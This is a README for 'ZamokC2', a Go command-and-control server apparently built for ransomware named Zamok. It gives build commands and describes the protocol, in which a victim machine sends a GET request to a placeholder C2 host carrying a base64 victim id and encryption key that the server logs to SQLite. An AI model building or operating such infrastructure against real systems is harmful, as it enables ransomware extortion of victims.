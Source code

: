# ZamokC2
A simple but effective C2 Server for Zamok

## Setup :
- Clone this repository
- Navigate to the project directory and run :
    ```
    go get
    ```
- To build the C2, run :
    ```
    go build -o zamokc2
    ```
You can now start it by simply running :
    ```
    \./zamokc2
    ```

## How it works :
1. Starts a listener on port 8080 (the default one; you can change it)
2. It expects a GET request from the target/victim 
3. The GET request is like this :
    ```
    GET http://c2.server:8080/<SOME_STRING>
    ```
    Where :
    - c2.server is the URL or IP Address where the C2 is running
    - SOME_STRING is a base64 string of a unique victim machine id and the encryption/decryption key concatenated with a :
4. The C2 breaks down the request and gets the 2 values : the id and the key
5. It saves these values to an SQLite database locally 
6. It displays a banner on the terminal, with the details of the new victim machine

## DISCLAIMER :
This project is for educational purposes only, and I will not be responsible for \
anything malicious you do with it !